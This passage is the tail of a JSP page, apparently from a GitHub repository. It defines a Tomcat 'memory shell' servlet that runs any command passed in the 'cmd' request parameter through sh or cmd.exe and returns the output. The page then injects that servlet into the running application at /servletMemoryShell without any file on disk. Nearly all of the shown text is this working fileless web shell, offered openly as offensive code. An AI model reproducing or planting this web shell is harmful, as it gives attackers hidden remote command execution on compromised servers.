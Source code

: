 ```jsp

        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
            HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
            HttpServletResponse httpServletResponse = (HttpServletResponse) servletResponse;

            if (httpServletRequest.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                String[] command = isLinux ? new String[]{"sh", "-c", httpServletRequest.getParameter("cmd")} : new String[]{"cmd.exe", "/c", httpServletRequest.getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                String output = scanner.hasNext() ? scanner.next() : "";
                httpServletResponse.getWriter().write(output);
                httpServletResponse.getWriter().flush();
            }
        }

        public String getServletInfo() {
            return null;
        }

        public void destroy() {
        }
    };
    wrapper.setLoadOnStartup(1);
    wrapper.setServlet(servletMemoryShell);
    wrapper.setServletClass(servletMemoryShell.getClass().getName());

    standardContext.addChild(wrapper);
    standardContext.addServletMapping("/servletMemoryShell", "servletMemoryShell");

    response.getWriter().write("Servlet Inject Successfully...");
%>
```
